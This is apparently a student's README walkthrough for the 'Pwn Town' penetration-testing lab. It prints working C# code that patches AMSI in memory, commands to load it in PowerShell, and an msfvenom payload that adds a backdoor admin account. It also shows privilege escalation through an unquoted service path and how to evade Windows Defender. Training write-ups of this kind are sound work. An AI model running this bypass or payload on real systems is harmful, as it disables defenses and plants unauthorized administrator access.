 # Pwn-Town
Here are all of my notes for the Pwn Town lab!

Starting out
---
The first thing you want to do is get everything prepared. Some things I would to (to make your life easier) is:
* On your local computer, save the RDP configuration to make connecting easier
* Find the `pentest-tools` folder on the lab machine and pin that to quick access

Bypassing AMSI
---
The first major hurdle is bypassing AMSI, or Antimalware Scan Interface. After trying to run some of the powershell tools, you'll quickly notice they can't run because they "contain malware".

```diff
Import-Module .\PowerSploit.psd1
-This script contains malicious content and has been blocked by your antivirus software.
```

The way we can bypass this is a little weird (but works). We're going to compile a C file into a DLL, then load that into powershell. This part of bypassing AMSI was found on [this website](https://www.citadel.co.il/Home/Blog/1008) which took a long time to find!

If you want, you can just download the DLL from this repository and skip to where I load it into powershell.

### Creating the C file
For this, just open up notepad and copy this code ([source](https://www.citadel.co.il/Home/Blog/1008)):

```
using System;
using System.Runtime.InteropServices;

namespace BP
{
    public class AMS
    {
        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32")]
        public static extern IntPtr LoadLibrary(string name);
        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("Kernel32.dll", EntryPoint = "RtlMoveMemory", SetLastError = false)]
        static extern void MoveMemory(IntPtr dest, IntPtr src, int size);


        public static void Disable()
        {
            IntPtr AMSDLL = LoadLibrary("amsi.dll");
            IntPtr AMSBPtr = GetProcAddress(AMSDLL, "Am" + "si" + "Scan" + "Buffer");
            UIntPtr dwSize = (UIntPtr)5;
            uint Zero = 0;
            VirtualProtect(AMSBPtr, dwSize, 0x40, out Zero);
            Byte[] Patch1 = { 0x31 };
            Byte[] Patch2 = { 0xff };
            Byte[] Patch3 = { 0x90 };
            IntPtr unmanagedPointer1 = Marshal.AllocHGlobal(1);
            Marshal.Copy(Patch1, 0, unmanagedPointer1, 1);
            MoveMemory(AMSBPtr + 0x001b, unmanagedPointer1, 1);
            IntPtr unmanagedPointer2 = Marshal.AllocHGlobal(1);
            Marshal.Copy(Patch2, 0, unmanagedPointer2, 1);
            MoveMemory(AMSBPtr + 0x001c, unmanagedPointer2, 1);
            IntPtr unmanagedPointer3 = Marshal.AllocHGlobal(1);
            Marshal.Copy(Patch3, 0, unmanagedPointer3, 1);
            MoveMemory(AMSBPtr + 0x001d, unmanagedPointer3, 1);
            Console.WriteLine("Memory patched successfuly.");
        }
    }
}
```

Then, you can save this (maybe in a antivirus whitelisted folder>) as whatever you want, but I'm going to call it `AMSI.cs`.

### Compiling code into a DLL
Now, open up powershell change to the directory you saved the CS file in. Type this, replacing `<NAME>` with the name of the file you just created.

```
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\<NAME>.cs")) -OutputAssembly "AMSI.dll"
```

This with create a file called AMSI.dll.

### Loading the DLL into powershell
Now you should have the DLL called `AMSI.dll`. We need to load this into powershell to get around AMSI.

To do this, type:
```
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\AMSI.dll"))
```

Then, the final step is to patch the memory:
```
[BP.AMS]::Disable()
```

Now you should be able to run whatever you want in powershell!

Getting Local Admin
---
The next thing you need is local admin. For this, we can exploit the unquoted service path.

### What is Unquoted Service Path?
The unquoted service path is a path to a file that is unquoted!

Look at this path: `C:\Users\Marty McFly\run.exe`

There is a space in between Marty and Mcfly, and that path is not quoted.
Windows will look for run.exe, but since the path isn't quoted, it goes through the path and looks for files to run. It will end up stopping at Marty (thinking there is a file at _C:\Users_. It will run any file named Marty, and if there is no file, it moves on. Luckily, Windows runs this file with the highest privligas. We can put a file in the unquoted service path to run a payload.

### Finding Unquoted Service Paths
For the Pwn Twn lab, we need to find unquoted service paths.

In Powershell, CD to the PowerSploit folder located in `C:1\Users\Public\pentest-tools\PowerSploit-master`. This contains a ton of useful tools. Go ahead and import the module:
```
Import-Module .\Privesc.psd1
```
and check for unquoted service packs:
```
Get-UnquotedService
```
Your output should look something like this:
```diff
ServiceName    : Pwn Town Monitoring Agent
+Path           : C:\Program Files\Pwn Town\Pwn Agent\agent.exe
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'Pwn Town Monitoring Agent' -Path <HijackPath>
CanRestart     : False
Name           : Pwn Town Monitoring Agent
```

The highlighted line is the unquoted path.

```
C:\Program Files\Pwn Town\Pwn Agent\agent.exe
                   ^
```

One option would be to make an EXE file called _Pwn_ that contains a payload.

### Making a Payload

The payload that we will use creates a new admin account with the credentials you choose. This is perfect!

A lot of the information in this section came from [this video on YouTube](https://www.youtube.com/watch?v=WWE7VIpgd5I).

Start up a Kali Linux machine or VM, open terminal, and type this:

```
msfvenom -p windows/adduser USER=backdoom_admin PASS=<INSERTPASSWORD> -f exe > Pwn.exe
```

Don't forget to replace <INSERTPASSWORD> with the password you want. This is going to create a payload that creates a new user using msfvenom with the username *backdoor_admin*, the password of your choice, and it will make it all into an EXE file.
    
### Getting the Payload into Windows
Now you need to get the payload into Windows. The best way to do this would be using your virtualization app's built in transfer, but you can also run thos command to make an HTTP file server with python:

```
sudo python -m SimpleHTTPServer 80
```

Now, go to the IP address of the VM in your web browser and add `:80` to the end.

You should be able to navigate through and download the EXE to your computer.
    
(It might be better to watch [the video?](https://youtu.be/WWE7VIpgd5I?t=516))
    
When you have it on your computer, extract this into a ZIP file. I had a lot of trouble with transferring EXEs, so a ZIP works perfectly. On Windows, right click and choose _Send to Compressed (Zipped) Folder_. On Mac and Linux, Right Click and choose _Compress_. You can copy this to the Pwn Twn lab by copying and pasting it (most RDP clients have shared clipboards).
    
### Running the Payload
If you remember from earlier, we can run a payload from a space in the unquoted service path.
```
C:\Program Files\Pwn Town\Pwn Agent\agent.exe
                   ^
```
In this case, it will be located in `C:\Program Files\` and will be called `Pwn.exe`.

The first step to running the payload is extracting the ZIP file. Make sure you do this into the `pentest-tools` folder because this is whitelisted in Windows Defender and will not be deleted. (To extract on Windows, just right click and press _Extract All_).
    
Now, you can open a new windows of file explorer and navigate to `C:\Program Files`. Copy and Paste (or drag and drop) the Pwn file from pentest-tools to Program Files. Quickly reboot the machine after doing this to prevent Windows Defender from deleting the files.

